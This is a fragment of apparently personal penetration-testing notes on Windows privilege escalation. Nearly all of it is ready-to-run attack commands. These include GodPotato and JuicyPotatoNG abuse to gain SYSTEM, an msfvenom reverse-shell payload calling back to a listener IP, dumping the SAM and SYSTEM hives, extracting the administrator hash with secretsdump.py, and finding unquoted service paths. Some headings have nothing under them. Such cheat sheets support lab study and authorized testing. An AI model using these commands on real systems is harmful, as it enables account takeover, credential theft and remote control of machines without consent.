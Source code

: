 or 

```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse
```

Transfer GodPotato to target and test with 'whoami'
```
.\GodPotato-NET4.exe -cmd "whoami"
```

Create an msfvenom rev shell payload 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=9002 -f exe > rev2.exe
```

Execute this payload with GodPotato 
```
.\GodPotato-NET4.exe -cmd "c:\users\tony\rev2.exe"
```

[JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)
```
.\jp.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\juicy.txt"
```
### SeBackupPrivilege

#### reg save sam and system archives

```
reg save HKLM\SAM SAM
```

```
reg save HKLM\SYSTEM SYSTEM
```

Transfer these files to Kali box and run secretsdump.py to extract administrator hash
##### secretsdump.py
```
secretsdump.py local -sam sam -system system
```

#### robocopy ntds.dit

## Unquoted Service Paths 

Detection in PowerShell
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

Detection in CMD
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### SeManageVolumePrivilege 
[[Access]]
